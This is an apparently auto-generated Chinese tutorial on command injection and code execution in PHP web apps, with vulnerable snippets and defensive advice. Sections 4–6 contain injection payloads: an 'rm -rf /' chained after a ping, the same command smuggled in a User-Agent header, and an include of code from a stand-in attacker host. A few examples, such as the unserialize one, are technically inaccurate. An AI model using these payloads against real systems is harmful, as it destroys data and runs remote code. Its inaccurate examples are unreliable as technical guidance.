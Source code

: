 # 命令注入与代码执行

## 1. 概述

命令注入（Command Injection）与代码执行（Code Execution）是Web应用程序中常见的高危漏洞类型，攻击者通过这些漏洞可以在目标系统上执行任意命令或代码，进而控制服务器或获取敏感信息。本文将深入探讨这两种漏洞的定义、原理、分类、技术细节，并提供防御建议。

## 2. 定义

### 2.1 命令注入
命令注入是指攻击者通过向应用程序注入恶意命令，使得应用程序在操作系统层面执行这些命令。通常发生在应用程序将用户输入直接传递给系统命令执行函数（如`system()`、`exec()`等）时，未对输入进行充分的验证和过滤。

### 2.2 代码执行
代码执行是指攻击者通过向应用程序注入恶意代码，使得应用程序在运行时执行这些代码。通常发生在应用程序将用户输入直接传递给动态代码执行函数（如`eval()`、`assert()`等）时，未对输入进行充分的验证和过滤。

## 3. 原理

### 3.1 命令注入原理
命令注入的原理是利用应用程序对用户输入的处理不当，将用户输入直接拼接到系统命令中。攻击者通过构造特殊的输入，使得系统命令执行时包含恶意命令，从而实现对目标系统的控制。

### 3.2 代码执行原理
代码执行的原理是利用应用程序对用户输入的处理不当，将用户输入直接拼接到动态代码中。攻击者通过构造特殊的输入，使得动态代码执行时包含恶意代码，从而实现对目标系统的控制。

## 4. 分类

### 4.1 命令注入分类
1. **直接命令注入**：用户输入直接拼接到系统命令中，未经过任何处理。
   ```php
   $cmd = "ping " . $_GET['ip'];
   system($cmd);
   ```
   攻击者可以通过输入`127.0.0.1; rm -rf /`来执行删除命令。

2. **间接命令注入**：用户输入经过部分处理，但仍存在注入风险。
   ```php
   $ip = escapeshellarg($_GET['ip']);
   $cmd = "ping " . $ip;
   system($cmd);
   ```
   虽然使用了`escapeshellarg()`函数，但如果输入中包含特殊字符，仍可能被注入。

### 4.2 代码执行分类
1. **直接代码执行**：用户输入直接拼接到动态代码中，未经过任何处理。
   ```php
   $code = $_GET['code'];
   eval($code);
   ```
   攻击者可以通过输入`phpinfo();`来执行任意PHP代码。

2. **间接代码执行**：用户输入经过部分处理，但仍存在执行风险。
   ```php
   $code = addslashes($_GET['code']);
   eval($code);
   ```
   虽然使用了`addslashes()`函数，但如果输入中包含特殊字符，仍可能被执行。

## 5. 技术细节

### 5.1 命令注入技术细节
1. **命令分隔符**：在Unix/Linux系统中，常用的命令分隔符包括`;`、`&&`、`||`、`|`等。攻击者可以通过这些分隔符将多个命令拼接在一起执行。
   ```bash
   ping 127.0.0.1; rm -rf /
   ```

2. **命令替换**：在Unix/Linux系统中，可以使用`$(command)`或`` `command` ``来执行命令并将结果替换到当前命令中。
   ```bash
   ping $(whoami)
   ```

3. **环境变量注入**：攻击者可以通过设置环境变量来影响命令的执行。
   ```bash
   PATH=/tmp:$PATH; malicious_command
   ```

### 5.2 代码执行技术细节
1. **动态代码执行函数**：在PHP中，常用的动态代码执行函数包括`eval()`、`assert()`、`preg_replace()`等。攻击者可以通过这些函数执行任意代码。
   ```php
   eval('echo "Hello, " . $_GET["name"];');
   ```

2. **反序列化漏洞**：在反序列化过程中，如果未对输入进行充分验证，攻击者可以通过构造恶意序列化数据来执行任意代码。
   ```php
   $data = unserialize($_GET['data']);
   ```

3. **文件包含漏洞**：在文件包含过程中，如果未对输入进行充分验证，攻击者可以通过包含恶意文件来执行任意代码。
   ```php
   include($_GET['file']);
   ```

## 6. 攻击向量

### 6.1 命令注入攻击向量
1. **Web表单输入**：攻击者通过Web表单输入恶意命令，应用程序将输入直接拼接到系统命令中。
   ```html
   <form action="/ping" method="GET">
       <input type="text" name="ip">
       <input type="submit" value="Ping">
   </form>
   ```

2. **HTTP头注入**：攻击者通过修改HTTP头中的某些字段（如`User-Agent`、`Referer`等）来注入恶意命令。
   ```bash
   curl -H "User-Agent: ; rm -rf /" http://example.com
   ```

3. **文件上传**：攻击者通过上传恶意文件，应用程序在处理文件时执行恶意命令。
   ```bash
   mv /tmp/uploaded_file /var/www/html/malicious.php
   ```

### 6.2 代码执行攻击向量
1. **Web表单输入**：攻击者通过Web表单输入恶意代码，应用程序将输入直接拼接到动态代码中。
   ```html
   <form action="/execute" method="GET">
       <input type="text" name="code">
       <input type="submit" value="Execute">
   </form>
   ```

2. **反序列化数据**：攻击者通过构造恶意序列化数据，应用程序在反序列化时执行恶意代码。
   ```php
   $data = 'O:8:"stdClass":1:{s:4:"code";s:10:"phpinfo();";}';
   unserialize($data);
   ```

3. **文件包含**：攻击者通过构造恶意文件路径，应用程序在包含文件时执行恶意代码。
   ```php
   include('http://attacker.com/malicious.php');
   ```

## 7. 防御思路和建议

### 7.1 命令注入防御
1. **输入验证**：对用户输入进行严格的验证，确保输入符合预期的格式和内容。
   ```php
   if (!preg_match('/^[0-9.]+$/', $_GET['ip'])) {
       die('Invalid IP address');
   }
   ```

2. **参数化命令**：使用参数化命令或API，避免将用户输入直接拼接到命令中。
   ```php
   $cmd = ['ping', $_GET['ip']];
   system(implode(' ', array_map('escapeshellarg', $cmd)));
   ```

3. **最小权限原则**：运行应用程序的用户应具有最小权限，避免使用root用户执行命令。

### 7.2 代码执行防御
1. **输入验证**：对用户输入进行严格的验证，确保输入符合预期的格式和内容。
   ```php
   if (!preg_match('/^[a-zA-Z0-9_]+$/', $_GET['code'])) {
       die('Invalid code');
   }
   ```

2. **避免动态代码执行**：尽量避免使用`eval()`、`assert()`等动态代码执行函数，使用静态代码或安全的替代方案。

3. **反序列化安全**：在反序列化过程中，对输入进行严格验证，避免执行恶意代码。
   ```php
   $data = unserialize($_GET['data'], ['allowed_classes' => []]);
   ```

4. **文件包含安全**：在文件包含过程中，对输入进行严格验证，避免包含恶意文件。
   ```php
   $allowed_files = ['file1.php', 'file2.php'];
   if (in_array($_GET['file'], $allowed_files)) {
       include($_GET['file']);
   }
   ```

## 8. 总结

命令注入与代码执行是Web应用程序中常见的高危漏洞，攻击者通过这些漏洞可以在目标系统上执行任意命令或代码，进而控制服务器或获取敏感信息。防御这些漏洞的关键在于对用户输入进行严格的验证和过滤，避免将用户输入直接拼接到系统命令或动态代码中。通过采取适当的防御措施，可以有效降低这些漏洞的风险。

---

*文档生成时间: 2025-03-11 12:39:07*
